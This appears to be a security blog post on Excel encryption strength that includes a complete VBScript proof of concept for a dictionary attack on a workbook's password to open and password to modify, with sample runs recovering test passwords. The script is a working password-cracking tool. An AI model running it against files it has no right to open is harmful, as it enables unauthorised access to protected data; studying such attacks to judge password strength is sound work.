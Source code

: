 ```yaml
---
title:  "Dictionary Attack on Excel Passwords"
---
```


![Logo](/assets/images/dictionary.jpg)

## Context 

When thinking about the security of encrypted Excel documents, I found a great article analyzing [security of encryption algorithms](http://www.oraxcel.com/projects/encoffice/help/How_safe_is_Excel_encryption.html) for Excel spreadsheets. The bottom line is that:
* Encryption in Excel 2007 IS secure only for ".docx". For ".doc" it's NOT secure with default settings.
* Encryption in Excel 2002 and 2003 IS secure, but NOT when used with default settings!
* Encryption in Excel 95, 97 and 2000 is NOT secure at all :)

Instructions on how to make sure you're using the most secure algorithms and how to change the default settings in the referenced link. Another good reference on Excel 2007 Encryption Strength is [this discussion](https://security.stackexchange.com/questions/17702/excel-2007-encryption-strength).

## Setting password to open/modify
Changing/removing the **_password to open_** a file is pretty straight-forward in Excel 2007-2010: File menu->Info->Encrypt with password. 
I found that changing the **_password to modify_** is not so straight-forward. To set/remove a "read-only" password, from the _Save_ or _Save As_ dialog boxes, select _General Options_ from the _Tools_ drop-down menu to open the _General Options_ dialog box. There, in the _Password to modify box_, you can enter the new password or blank to remove the current one. 

## Dictionary attack
If the password is a dictionary word, then it's pretty easy to find it. I've made a small Visual Basic script to attack these 2 passwords (password to open and password to modify)  using words from a dictionary file. I've used VB because it already had support for opening Excel and for passwords. It's good enough for a PoC. This could also be extended to something like the rules in [jtr](https://github.com/magnumripper/JohnTheRipper) to intelligently guess/brute-force passwords, possibly based on the very efficient [KoreLogic John rules](http://contest-2010.korelogic.com/rules.html). 

Currently it's just a proof of concept, and it's very slow, but it could be extended to use more threads or optimized:
```vbscript
' *****************************************************************
' Dictionary attack on Excel passwords
'
' Uses Workbooks.open method and a password dictionary to test:
' 1) password to open 
' 2) password for write access, using open password
'
' Usage: "CScript excel-pw-attack.vbs <test .xls=""> <words .dic="">"
'
' Full Description:
' http://insecure.tk/......
' *****************************************************************
Option Explicit
On Error Resume Next
 
Dim objExcel
Set objExcel = WScript.CreateObject("Excel.Application")
objExcel.visible=False
 
Dim args
if WScript.Arguments.Count < 2 or WScript.Arguments.Count > 3 then
   WScript.Echo "Usage: "
   WScript.Echo "Search password for open: "
   WScript.Echo "   CScript " & WScript.ScriptName & " <excel file=""> <dictionary file="">"
   WScript.Echo "Search password for modify, using password to open: "
   WScript.Echo "   CScript " & WScript.ScriptName & " <excel file=""> <dictionary file=""> <open password="">"
   WScript.Quit 1
end if
 
' Excel file should be in the script's directory
Dim xlsFile, currentPath
currentPath = replace(WScript.ScriptFullName, WScript.ScriptName, "")
xlsFile = currentPath & WScript.Arguments(0)
WScript.Echo "Brute-forcing excel file: " & xlsFile
WScript.Echo "Using dictionary file: " & WScript.Arguments(1)
if WScript.Arguments.Count = 3 then
 WScript.Echo "Using open password " & WScript.Arguments(2) & " to get the write password"
end if
 
' Read the passwords from the dictionary file
Dim objFSO
Set objFSO = CreateObject("Scripting.FileSystemObject")
 
Dim objFile
Const ForReading = 1
Set objFile = objFSO.OpenTextFile(currentPath & WScript.Arguments(1), ForReading)
 
Dim currLine, bFound
bFound = False
While Not bFound And Not objFile.AtEndOfStream
 currLine = objFile.ReadLine
 WScript.Echo "[*] Testing solution " & currLine
 if WScript.Arguments.Count = 3 then
  objExcel.Workbooks.Open xlsFile, , , , WScript.Arguments(2), currLine
 else
  ' Try to open it in read-only mode
  objExcel.Workbooks.Open xlsFile, ,True , , currLine
 end if
 if Err.Number >  0 then
  'WScript.Echo Err.Description & Err.Number
  Err.Clear
 else
  bFound = True
  if WScript.Arguments.Count = 3 then
   WScript.Echo "[+] Found password for modifying: " & currLine
  else
   WScript.Echo "[+] Found password for opening: " & currLine
  end if
 end If
Wend
 
if not bFound then
 if WScript.Arguments.Count = 3 then
  WScript.Echo "[-] Not found password for modifying."
 else
  WScript.Echo "[-] Not found password for opening."
 end if
end if
 
 
objExcel.Workbooks.Close
objFile.close
```
## Usage

An example of how to use it on a test document with these 2 passwords set:
## 1. Find password to open:
```bash
> cscript excel-pw-attack.vbs test.xls words_en.txt
Microsoft (R) Windows Script Host Version 5.8
Copyright (C) Microsoft Corporation. All rights reserved.
 
Brute-forcing excel file: C:\...\test.xls
Using dictionary file: words_en.txt
[+] Found password for opening: rock
```

## 2. Find password to modify: 
```bash
>cscript excel-pw-attack.vbs test.xls words_en.txt rock
Microsoft (R) Windows Script Host Version 5.8
Copyright (C) Microsoft Corporation. All rights reserved.
 
Brute-forcing excel file: C:\...\test.xls
Using dictionary file: words_en.txt
Using open password rock to get the write password
[+] Found password for modifying: paper
```
